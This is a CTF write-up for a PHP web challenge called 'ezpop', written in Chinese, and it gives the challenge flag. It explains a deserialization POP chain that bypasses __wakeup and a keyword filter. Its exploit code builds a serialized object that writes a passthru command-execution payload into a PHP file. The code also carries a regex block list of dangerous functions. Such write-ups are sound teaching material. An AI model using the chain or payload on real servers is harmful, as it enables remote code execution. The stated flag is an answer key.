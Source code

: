 - **题目名称：** ezpop
- **题目类型：** WEB
- **题目难度：** 中等 
- **出题人：** ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：** 听说你是pop大师！

- **flag：** flag{Y0u_Ar3_A_POP_Ma5ter!!!!}

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入pass方法，此方法为抽象方法，在子类里实现，所以便进入evil的pass方法，再自己定义nomal类和evil的this->c，用url大小写来绕过date函数，实现绕过$this->a->d === shell的判断，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    public $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract public function pass();

    public function action() {
        $this->pass();
    }
}
class normal{
    public $d;
    function action(){
        echo "you must bypass it";
    }
} 
class evil extends hack {
    public $data;
    public $a;
    public $b;
    public $c;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
        $this->b=serialize(new normal());
        $this->c='%73%68%65%6C%6C';
    }
    public function pass(){
        $this->a = unserialize($this->b);
        $this->a->d = urldecode(date($this->c));
        if($this->a->d=== 'shell'){
           $this->shell();
        }
        else{
            die(date('Y/m/d H:i:s'));
        }
    }
    function shell(){
        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump|php/i',$this->data)){
            die("you die");
        }
        $dir = 'scandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
        if(!file_exists($dir)){
            mkdir($dir);
            echo $dir;
        }
        file_put_contents("$dir" . "hack.php", $this->data);
    }
}
$a=serialize(new Openfunc());
echo $a;
?>
```
